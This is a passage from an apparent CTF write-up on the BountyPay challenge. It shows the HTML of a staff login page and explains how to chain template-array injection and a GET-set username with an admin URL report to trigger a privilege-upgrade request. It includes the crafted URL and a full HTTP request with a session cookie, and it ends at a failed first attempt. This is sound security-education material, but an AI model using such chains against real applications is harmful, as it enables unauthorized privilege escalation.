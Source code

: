 ```html
    <title>Staff Login</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>

<div class="container">
    <div class="row">
        <div class="col-sm-6 col-sm-offset-3">
            <h1 style="text-align: center">Staff Login</h1>
                        <form method="post" action="/?template=login">
                <div class="panel panel-default" style="margin-top:50px">
                    <div class="panel-heading">Login</div>
                    <div class="panel-body">
                        <div style="margin-top:7px"><label>Username:</label></div>
                        <div><input name="username" class="form-control" value="sandra.allison"></div>
                        <div style="margin-top:7px"><label>Password:</label></div>
                        <div><input name="password" type="password" class="form-control"></div>
                    </div>
                </div>
                <input type="submit" class="btn btn-success pull-right" value="Login">
            </form>
        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```

I have to say that while it was a fairly obvious thing to try after realising that you need to use `username` input from the login page - that's not something I would expect to see in a real-world application. I mean the general trick of breaking the app behavior by passing an Array to it is commonplace of course, for to actually have a backend that merges templates seems unlikely (at least no established framework would allow that) - there must have been some pretty custom code in the backend that lead to this.

Back the the CTF - note that conveniently, we can also set the value for the `username` input via a GET parameter, which is the last piece for the attack chain.

I then reported the following URL: `/?template[]=ticket&ticket_id=3582&template[]=login&username=sandra.allison#tab4`
```http
GET /admin/report?url=Lz90ZW1wbGF0ZVtdPXRpY2tldCZ0aWNrZXRfaWQ9MzU4MiZ0ZW1wbGF0ZVtdPWxvZ2luJnVzZXJuYW1lPXNhbmRyYS5hbGxpc29uI3RhYjQ= HTTP/1.1
Host: staff.bountypay.h1ctf.com
X-Requested-With: XMLHttpRequest
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMRXZqTzFPaWQ0bDA0M2xZdXozYld3czZSUG9McFZ4TWlCSGtVR3lDU3FycUZGUjY0QXNHclN6dzhLTUpjUEJ6c3Z5VmIwNnRMSmFMTzZYR0FrTURqY0NsMDY0bVkrQzE3UT09
```
and ... nothing happened. Visiting that URL directly in the browser I saw that the request was still being made to `/admin/upgrade?username=undefined`. Of course, that makes sense. Javascript (unless loaded asynchronously) is evaluated immediately when it is encountered in the DOM, meaning that it only has access to DOM elements that precede it. I've put the templates in the wrong order, and `username` input simply didn't exist on the page yet when our code was executed.
